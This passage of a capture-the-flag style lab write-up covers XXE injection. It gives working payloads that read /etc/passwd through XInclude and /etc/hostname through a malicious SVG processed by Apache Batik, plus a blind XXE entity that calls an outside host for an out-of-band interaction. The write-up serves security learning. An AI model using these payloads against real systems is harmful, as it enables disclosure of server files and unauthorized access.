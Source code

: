 ```http
productId=1&storeId=1
```

Payload use after replacing the `productId=` parameter with the payload

```http
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

### Exploiting XXE via image file upload

> This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
>
> To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

Found exploit for mentioned Apache Batik library: [https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/](https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/)

Created an .svg file with the below payload then used that as the uploaded avatar image file

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="16" x="0" y="16">&xxe;</text></svg>
```

### Blind XXE with out-of-band interaction

> You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain. Use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

After intercepting the request we get the below request body

```xml
<?xml version="1.0" encoding="UTF-8"?>

<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

Updated the intercepted request updating the body with the below payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://192.168.1.165:9090/"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```
